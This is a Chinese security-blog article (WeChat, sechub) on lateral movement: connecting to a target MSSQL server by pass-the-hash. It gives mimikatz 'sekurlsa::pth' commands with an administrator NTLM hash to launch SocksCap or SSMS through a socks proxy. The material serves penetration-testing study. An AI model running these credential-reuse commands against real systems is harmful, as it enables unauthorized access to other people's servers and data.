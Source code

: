 #  横向渗透 | 无密码连接SQL Server的姿势

zksmile  [ sechub安全 ](javascript:void\(0\);)

**sechub安全** ![]()

微信号 secevery0x01

功能介绍
隶属于SecHub网络安全社区，致力于研究渗透测试、红蓝对抗、应急响应、实战案例、钓鱼社工、和漏洞分析，定期分享实战案例、技术教程、安全工具等前沿网络安全资源。

____

___发表于_

收录于合集 #内网渗透 10个

**     点击蓝字 关注我们**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141946.png)

 **免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。

# 一、前言

原理：mssql支持Windows身份验证登录（微软工具ssms支持），很多win机器上都是用administrator用户默认安装的，也就是说只要拿到目标administrator用户的hash，就可以利用本地hash注入，通过socks代理直连目标mssql

# 二、SocksCap

操作流程：用hash注入启动sockscap，把ssms拖到sockscap中启动，连接目标mssql。

分析：为什么要注入启动sockscap，这样在sockscap中启用ssms会自动继承sockscap进程的权限。通过进程分析发现ssms的父进程是sockscap。

## 1.打开mimikatz，hash注入sockscap

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\SocksCap64\SocksCap64_RunAsAdmin.exe"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141948.png)

## 2.在sockscap中运行ssms

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141949.png)

## 3.输入目标服务器名称，连接即可

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141950.png)

![]()

## 4.通过进程分析，发现SSMS的父进程是sockscap

    
    
    wmic process where Name="SSMS.exe" get ParentProcessId  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141951.png)

# 三、proxifier

操作流程：打开proxifier。用hash注入启动ssms可连接目标mssql。

分析：sockscap和proxifier的使用方式不同。所以我们只要注入ssms即可。

## 1.启动proxifier

## 2.打开mimikatz，hash注入ssms

    
    
    privilege::debug  
    sekurlsa::pth /user:administrator /domain:192.168.144.146 /ntlm:518b98ad4178a53695dc997aa02d455c "/run:C:\all\ssms\Common7\IDE\Ssms.exe"  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141952.png)

## 3.连接

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141953.png)

![]()

  

欢迎关注SecHub网络安全社区，SecHub网络安全社区目前邀请式注册，邀请码获取见公众号菜单【邀请码】

 **#**

  

 **企业简介    **

  

 **赛克艾威 - 专注政企安全服务**

 **  
**

       北京赛克艾威科技有限公司（简称：赛克艾威），成立于2016年9月，具有中国网络安全审查技术与认证中心安全风险评估服务三级资质CCRC，信息安全保障人员资质CISAW（安全评估专家级）。

  

安全评估|渗透测试|漏洞扫描|安全巡检

代码审计|钓鱼演练|应急响应|安全运维

重大时刻安保|企业安全培训

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141946.png)

 **联系方式**

电话｜010-86460828

官网｜https://sechub.com.cn

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141955.png)

 **关注我们**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141956.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141956.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619141957.png)

 **公众号：** sechub安全

 **哔哩号：** SecHub官方账号

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

